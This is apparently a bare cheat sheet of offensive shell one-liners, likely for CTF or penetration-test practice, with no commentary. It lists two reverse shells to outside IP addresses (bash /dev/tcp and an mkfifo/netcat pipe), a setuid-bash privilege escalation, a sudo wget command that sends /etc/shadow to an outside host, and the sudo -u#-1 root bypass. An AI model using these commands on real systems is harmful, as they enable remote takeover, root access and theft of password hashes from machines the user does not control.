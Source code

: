 ```bash
/bin/bash -c 'bash -i &> /dev/tcp/10.11.43.81/1234 0<&1'
```

```bash
sudo /path/file.sh -c "chmod +s /bin/bash"
bash -p
```

```bash
sudo /usr/bin/wget --post-file=/etc/shadow <local-ip> $port
```

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
```

```bash
sudo -u#-1 /bin/bash
```
